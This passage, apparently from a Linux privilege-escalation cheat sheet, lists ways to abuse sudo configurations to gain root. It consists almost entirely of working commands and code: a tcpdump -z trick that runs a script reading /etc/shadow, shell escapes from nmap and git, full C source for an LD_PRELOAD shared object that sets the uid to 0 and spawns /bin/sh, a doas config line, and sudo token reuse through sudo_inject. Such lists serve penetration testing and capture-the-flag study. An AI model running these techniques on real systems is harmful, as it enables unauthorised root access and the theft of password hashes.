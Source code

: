 Tcpdump
```bash
$ echo $’id\ncat /etc/shadow’ > /tmp/.shell
$ chmod +x /tmp/.shell
$ sudo tcpdump -ln -i eth0 -w /dev/null -W 1 -G 1 -z /tmp/.shell -Z root
```
Nmap
```bash
$ sudo nmap --interactive
nmap> !sh
```
Git
```bash
$ sudo git help status
: !/bin/bash
```

### LD_PRELOAD

If `LD_PRELOAD` is explicitly defined in the sudoers file

```powershell
Defaults        env_keep += LD_PRELOAD
```

Compile the following shared object using the C code below with `gcc -fPIC -shared -o shell.so shell.c -nostartfiles`

```powershell
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
	unsetenv("LD_PRELOAD");
	setgid(0);
	setuid(0);
	system("/bin/sh");
}
```

Execute any binary with the LD_PRELOAD to spawn a shell : `sudo LD_PRELOAD=<full_path_to_so_file> <program>`, e.g: `sudo LD_PRELOAD=/tmp/shell.so find`

### Doas

There are some alternatives to the `sudo` binary such as `doas` for OpenBSD, remember to check its configuration at `/etc/doas.conf`

```bash
permit nopass demo as root cmd vim
```

### sudo_inject

Using [https://github.com/nongiach/sudo_inject](https://github.com/nongiach/sudo_inject)

```powershell
$ sudo whatever
[sudo] password for user:    
# Press <ctrl>+c since you don't have the password. 
# This creates an invalid sudo tokens.
$ sh exploit.sh
.... wait 1 seconds
$ sudo -i # no password required :)
# id
uid=0(root) gid=0(root) groups=0(root)
```
